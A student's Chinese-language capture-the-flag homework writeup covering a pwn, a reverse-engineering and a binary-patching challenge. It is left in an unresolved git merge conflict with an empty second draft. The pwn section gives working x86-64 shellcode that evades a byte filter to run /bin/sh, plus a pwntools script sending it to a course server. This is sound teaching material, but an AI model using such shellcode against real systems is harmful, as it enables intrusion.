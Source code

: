<<<<<<< HEAD
# HW0x00 Writeup

## pwn

題目有給 source code ，可以看到主程式裡面有個 `void (*hello)()` 可以將 shellcode 傳入並呼叫，但在傳進去之前會做檢查，其中有限制不能有 `\x00` 、 `\x05` 、 `\x0f` ，分別代表是 null byte 跟 Linux 的 `syscall` 指令。

```c=
for( int i = 0 ; i < 0x100 ; ++i ){
        if( shellcode[i] == '\x00' || shellcode[i] == '\x05' || shellcode[i] == '\x0f' ){
            puts( "Oops" );
            _exit(-1);
        }
    }
```


因此在這個限制下，必須傳入的字串長度必須補滿以免被補上 null byte ，另外對 register 操作製造一個 `syscall` 之後我們再 call 它就不會在 shellcode 裡面看到 `\x05\x0f` 了。

為了讓 `hello()` 可以執行 `/bin/sh` ，先去查了 Linux x64 system call table ，可以看到呼叫 `sys_execve` ， `rax` 要放 `0x3b` ，而 `rdi`、`rsi`、`rdx` 分別代表 `const char* filename` 、 `const char* argv[]` 、 `const char* envp[]`，我們要執行 `/bin/sh` 基本上只需要在 `rdi` 裡放入 `"/bin/sh"` ，其餘放 `0` 即可。

而 `syscall` 的數字，可以先將它做成 `0xfaf1` ，以 `neg` 將他轉換回 `0x050f` 。

照這個想法ㄧ開始寫的 payload 是：

```=
_start:

xor rdx, rdx
xor rsi, rsi
mov r8, 0x68732f2f6e69622f
push r8
push rsp
pop r13
mov rdi, r13
push 0x3b
pop rax
mov r9, 0xfffffffffffffaf1
neg r9
push r9
push rsp
pop r14

call r14
```

但可以看到第五行因為裡面沒有 null byte ，所以不知道字串是否結束，傳進去的時候尾巴有一些奇怪的字元。

![](https://i.imgur.com/TsGcgnw.png)

所以選擇的策略是用造 `syscall` 一樣的方式，將 `"/bin/sh\x00"` 的 hex 做成 2's complement ，利用 `neg` 這個指令將其轉換回去我們想要的。

```=
_start:
xor rdx, rdx
xor rsi, rsi
mov r8, 0xff978cd091969dd1
neg r8
push r8
push rsp
pop rdi
push 0x3b
pop rax
mov r9, 0xfffffffffffffaf1
neg r9
push r9
push rsp
pop r14
call r14
```

這樣就沒有問題了，完整的 script 如下：

```python3=
from pwn import *

arch = context.update(arch='amd64', os='linux')
r = remote('edu-ctf.csie.org', 10150)

r.recvline()

shellcode = """
_start:
xor rdx, rdx
xor rsi, rsi
mov r8, 0xff978cd091969dd1
neg r8
push r8
push rsp
pop rdi
push 0x3b
pop rax
mov r9, 0xfffffffffffffaf1
neg r9
push r9
push rsp
pop r14
call r14
"""

payload = asm(shellcode, arch='amd64')

r.send(payload)

r.interactive()
```

## rev

這題給的是一個 `*.pyc` file ，所以先用網路上的 decompiler 將他還原成比較好讀的形式，只不過 Google 搜尋結果第一筆的 decompiler 會在 `assert` 的部份解析錯誤，所以需要修改一下。

基本上這個 stack machine 有以下這幾個運算：
* 0: add
* 1: cmp
* 2: call itself
* 3: clean up the list
* 6: pop out
* 7: push in
* 8: do the last two elements subsitution, then get rid of the last one.
* 9: do the character accuracy check, terminate the process if it is the wrong character.

而從 opcode 8 跟 9 的計算模式 （同時也把運算的過程印出來檢驗），可以得知字串的比對是從後面往前做的。因此，若要推算正確的 char 也要從後面往前推算。
![](https://i.imgur.com/mvusOQJ.png)


## misc

這題一樣有給 source code ，然後下方註解出題者有給佛心建議說可以從哪些步驟開始，但因為我不太想裝 Visual Studio ，在 Linux 跑 wine 就好了，所以載了 x64dbg 。

然後 x64dbg 有 bug 不能用 wine 跑 (uwu) 。

![](https://i.imgur.com/Aq4lZ8W.png)

查了很多資料之後覺得要 patch x64dbg 有點麻煩，就只好打開我的 Windows 環境。

然後 Windows 基於不知名原因沒有網路我什麼都不能裝 (uwu) 。

![](https://i.imgur.com/4ozeoTB.png)

只好切回 Linux 用 USB 裝了題目跟 debugger 檔案，切回去 Windows 放進去囉，讚喔。

基本上題目應該是要我們在執行過程中，從 debugger 中找到 memory 裡有沒有出現這次 random 出來的值為多少，這樣就能輸入正確的數值使 magic 跟 password 相等。但其實可以發現， magic 跟 password 的判斷式和 key 的比較之間其實是不會互相影響的，因此其實直接找到 `if (password == magic)` 所在的位置，將其從 `jne` patch 成 `je` 之類的就可以了。

只不過不知道為什麼 x64dbg 跑完程式之後就會馬上終止，所以來不及看到 flag 長怎樣，只好把斷點設在 `printf` 的位置，讓他一個字一個字把 flag 印出來，就大功告成了！

喔對因為電腦沒網路、筆電剛好也不在身邊，我沒辦法直接提交 flag ，只好用 genius 的方式把 flag 的畫面拍下來。

![](https://i.imgur.com/NmwAv7z.jpg)

![](https://i.imgur.com/1M2Gp8B.png)

=======
# HW0x00

## pwn - shellc0de

### Solution

首先看到 source code 有擋

## rev - m4chine

### Solution


## misc - Winmagic

### Solution


--

## 我在課堂公布解法後才得知解法的題目

### encrypt

### backdoor
>>>>>>> 4257df81eaac22a5ebb9bb1e9110beb90d690eb7


